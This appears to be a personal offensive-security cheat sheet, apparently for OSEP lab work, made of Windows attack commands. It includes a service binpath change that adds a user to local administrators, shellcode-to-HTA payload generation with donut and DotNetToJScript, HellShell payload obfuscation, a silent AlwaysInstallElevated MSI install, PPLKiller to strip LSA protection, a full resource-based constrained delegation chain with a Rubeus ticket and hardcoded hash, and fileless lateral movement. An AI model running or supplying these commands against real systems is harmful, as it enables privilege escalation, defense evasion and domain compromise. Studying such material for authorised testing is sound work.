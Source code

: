 Service Modify
---------------------
```powershell
sc config SNMPTRAP binpath= "cmd.exe /c net localgroup administrators john /add" start= "demand" obj= "NT AUTHORITY\SYSTEM" password= ""
```
```bash
for i in {1..255} ;do (ping -c 1 192.168.110.$i | grep "bytes from"|cut -d ' ' -f4|tr -d ':' &);done
```

HTA JS PAYLOAD
---------------------
DotNetToJScript
```powershell
C:\Users\ctf\Downloads\donut_v1.1\donut.exe -a 2 -f 1 -o ipv4.bin -i ipv4shell.exe
```
Change in TestClass.cs file url

Build ExampleAssemly.dll


Generate the js file
```
C:\Users\ctf\Downloads\release_v1.0.4\DotNetToJscript.exe ExampleAssembly.dll --lang=JScript --ver=4 -o payload.js
```

```hta
<html>
<head>
<script language="JScript">
// ADD JS HERE
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

IPV4Shell - HellShell
---------------------
URL -> https://github.com/NUL0x4C/HellShell

```powershell
C:\Users\ctf\Downloads\HellShell-main\HellShell-main\x64\Release\HellShell.exe payload.bin ipv4
# Generates Ipv4Fuscation.cpp -> Modify 
Z:\Offsec\OSEP\ipv4shell\src\ipv4shell.c
```
Modify the IP values
and compile to exe

Install AlwaysElevated
-----------------------
```powershell
Create MSI Package to run
dotnet build -p:Platform=x64 -c Release
cmd.exe /c "msiexec /quiet /qn /i InstallMe.msi"
```

Run the combined ligolo agent with ApplockerBypass
-----------------------

If LSA Protection 
--------------------
```powershell
PPLKiller.exe /installDriver
```
RBCD
--------------------
```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer file05 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/file05 /ptt
```

Lateral Movement
---------------------
 -> https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Fileless%20Lateral%20Movement

```powershell
lat.exe <server> <service name> <payload.exe>
Lat.exe file05 SensorService “C:\windows\tasks\inj.exe”
```

uacbypass.ps1
SigmaPotato.exe
